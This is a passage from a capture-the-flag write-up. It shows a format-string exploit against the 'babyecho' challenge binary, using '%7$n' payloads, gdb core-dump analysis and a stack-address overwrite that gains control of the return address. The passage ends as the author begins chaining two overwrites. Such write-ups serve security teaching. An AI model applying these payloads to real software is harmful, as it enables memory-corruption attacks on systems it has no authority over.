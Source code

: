The easiest way to control eip is to overwrite a return address. As we learned somewhere wayyyyyyy up there, return addresses are stored on the stack the same way the length value was stored. And we can find it the same way - just go to where it crashed and find it.

We'll use the same ol' value to crash it:

```

$ <span class="in">ulimit -c unlimited</span>
$ <span class="in">echo -e 'AAAA%7$n' | ./babyecho</span>
Reading 13 bytes
Segmentation fault (core dumped)
$ <span class="in">gdb ./babyecho ./core</span>
...
(gdb) <span class="in">bt</span>
#0  0x08080c2a in ?? ()
#1  0x08081bb0 in ?? ()
#2  0x0807d285 in ?? ()
#3  0x0804f580 in ?? ()
#4  0x08049014 in ?? ()
#5  0x0804921a in ?? ()
#6  0x08048d2b in ?? ()
```

"bt" - or "backtrace" - prints the list of functions that were called to get to where you are. The call stack. If we can find any of those values on the stack, we can overwrite it and win. I arbitrarily chose 0x08081bb0 and found it at 0xffffa054, but it didn't work. Rather than spend a bunch of time troubleshooting, I found 0x0807d285 instead:

```

(gdb) <span class="in">x/10000xw $esp</span>
0xffff9420:     0xffff94b0      0x00000000      0x0000001c      0x00000000
0xffff9430:     0x00000000      0x00000000      0x00000000      0x00000000
0xffff9440:     0x0000000d      0x00000000      0x00000000      0x0000000a
...
0xffffc140:     0x080ea200      0x080ea00c      0xffffc658      <span class="in">0x0807d285</span>
```

It's stored at 0xffffc14c. Let's try changing it to something else:

```

$ <span class="in">echo -e '\x4c\xc1\xff\xff%7$n' | ./babyecho</span>
Reading 13 bytes
....Segmentation fault (core dumped)
$ <span class="in">gdb -q ./babyecho ./core</span>
Core was generated by `./babyecho'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x00000004 in ?? ()
```

We overwrote the return address with 4, just like we'd expect! Let's chain together the two exploits - the one for changing the length and the one for changing the return address (I'm quoting the strings separately to make it more clear, but bash will automatically combine them):
